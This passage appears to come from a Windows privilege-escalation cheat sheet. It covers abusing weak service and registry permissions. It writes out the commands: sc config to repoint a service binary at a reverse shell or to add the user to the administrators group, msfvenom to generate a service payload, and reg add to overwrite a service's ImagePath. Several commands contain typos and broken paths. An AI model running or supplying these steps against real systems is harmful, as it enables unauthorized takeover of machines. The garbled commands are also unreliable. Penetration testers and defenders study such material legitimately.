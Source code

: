 `WRITE_DAC`

`WRITE_OWNER`

If you have reconfiguration permissions, or can get them through the above permission list, then you can use the SC command to exploit the vulnerability:

```powershell
sc config SERVICE binpath= "\"PATH OF OUR REVERSE SHELL\""

or adding out own user

sc config daclsvc binpath= "net localgroup administrators user /add"
```

To check if we where added to the admin group

`net localgroup administrators`

`net stop SERVICENAME`

`net start SERVICENAME`

Stop and start the service again and you’re a Local Admin!

### Insecure Registry Permissions

Windows stores all the necessary data that is related to services in the registry key location below:

`reg query HKLM\SYSTEM\CurrentControlSet\Services`
 
If you find a vulnerable service use the follwing command to see its details:

`req query HKLM\SYSTEM\CurrentControlSet\Services\<servicename>`

Find from which group is accessible this service

`accesschk.exe /accepteula -uvwqk hklm\System\CurrentControleSet\Service\<servicename>`

Found if note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users).

generate a payload:

`msfvenom –p windows/exec CMD=<Command> -f exe-services –o <service binary>`

Open a listener

Overweight the imagepath subkey of the valuable services with the path of the custom binary

`reg add HKLM\System\CurrentControleSet\Service<Service nam> /v ImagePath /t REG_EXPAND_SZ /d <path_to_exe> /f`

start service:

`net start`

### Weak Registry Permissions

> The Windows registry stores entries for each service.
Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.
